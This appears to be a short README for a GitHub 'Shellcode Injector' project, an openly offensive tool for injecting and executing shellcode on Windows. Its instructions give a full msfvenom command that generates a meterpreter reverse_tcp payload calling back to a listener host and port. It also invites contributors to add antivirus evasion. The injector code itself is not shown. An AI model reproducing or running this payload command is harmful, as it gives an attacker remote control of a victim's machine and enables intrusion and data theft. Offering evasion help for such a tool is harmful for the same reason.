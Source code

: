 # Shellcode Injector
### instructions
Gen your msfvenom shellcode : `msfvenom -platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.67 LPORT=4444 -f c --var-name=wannabe`
Put your shellcode in the `wannabe` variable.

### Warning
This does not bypass AV as of now, we did not implement anything for it. If you want to contribute and add it, feel  free to do so.
This is simply to play with memory allocation and execution. 
